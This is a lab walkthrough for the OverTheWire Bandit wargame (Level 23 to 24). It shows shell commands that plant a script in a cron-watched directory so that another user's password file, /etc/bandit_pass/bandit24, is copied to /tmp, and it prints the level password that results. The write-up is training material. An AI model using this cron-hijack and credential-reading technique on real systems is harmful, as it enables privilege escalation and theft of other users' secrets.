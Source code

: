 # Bandit Level 23 ➔ Level 24

## 🧠 Goal:
There is a **cron job** running as `bandit24` which executes all scripts in `/var/spool/bandit24`.  
Your task is to create a script in that directory which will copy the password for `bandit24` to a location you can access.

---

## 🔐 Login:
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

## 🛠️ Commands Used:
```bash
cd /tmp
mkdir myhack
cd myhack
echo 'cat /etc/bandit_pass/bandit24 > /tmp/bandit23_pass' > exploit.sh
chmod +x exploit.sh
cp exploit.sh /var/spool/bandit24/
cat /tmp/bandit23_pass
```

## 🧾 Password Found:
`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

## 📘 What I Learned:
- How to exploit writable cron-monitored directories for privilege escalation.
-	That cron jobs can be hijacked by injecting scripts into expected paths.
-	The importance of script permissions and naming in scheduled automation.
